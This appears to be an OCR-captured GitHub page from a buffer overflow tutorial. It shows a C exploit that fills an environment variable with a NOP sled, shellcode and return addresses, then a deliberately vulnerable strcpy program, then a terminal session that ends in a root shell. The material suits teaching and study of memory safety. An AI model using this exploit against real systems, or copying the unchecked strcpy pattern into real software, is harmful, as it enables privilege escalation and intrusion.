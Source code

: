 ```
void main(int argc, char *argv[])
{
char *buff, *ptr;
    long *addr_ptr, addr;
    int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
    int i;
    if (argc > 1) bsize  = atoi(argv[1]);
    if (argc > 2) offset = atoi(argv[2]);
    if (!(buff = malloc(bsize))) {
        printf(“Can’t allocate memory.\n”);
        exit(0);
	}
    addr = get_sp() - offset;
    printf("Using address: 0x\%x\n", addr);
    
	ptr = buff;
	addr_ptr = (long *) ptr;
	
	for (i = 0; i < bsize; i+=4)
		*(addr_ptr++) = addr;
		
	for (i = 0; i < bsize/2; i++)
    	buff[i] = NOP;
    	
    ptr = buff + ((bsize/2) - (strlen(shellcode)/2));
	for (i = 0; i < strlen(shellcode); i++)
		*(ptr++) = shellcode[i];
	buff[bsize - 1] = '\0';
	memcpy(buff,"BUF=",4);
    putenv(buff);		// assigns to the env variable "BUF"
    system(“/bin/bash”);
}
```
```
// victim.c
int main(int argc,char *argv[])
{
  char little_array[512];
     if (argc > 1)
        strcpy(little_array,argv[1]);
}
```
- In ```victim.c``` argv[1] is a command line argument that is coppied into the little_array variable. A buffer overflow occurs if argv[1] is larger that 512 bytes.
- Command Line Example of using ```nop_attack.c``` on ```victim.c```:
```
[normaluser local]$ ./nop_attack 600
==> Using address: 0xbfffdd68

[normaluser local]$ ./victim $BUF
sh-2.05b# id
==> uid=0(root) gid=0(root) groups=0(root), 10(wheel)
```
- The reason this simple exploit works is because we can execute instructions stored on the stack... As a protection against this "Stack Execution," many operating systems will NOT allow programs to execute code from the stack.
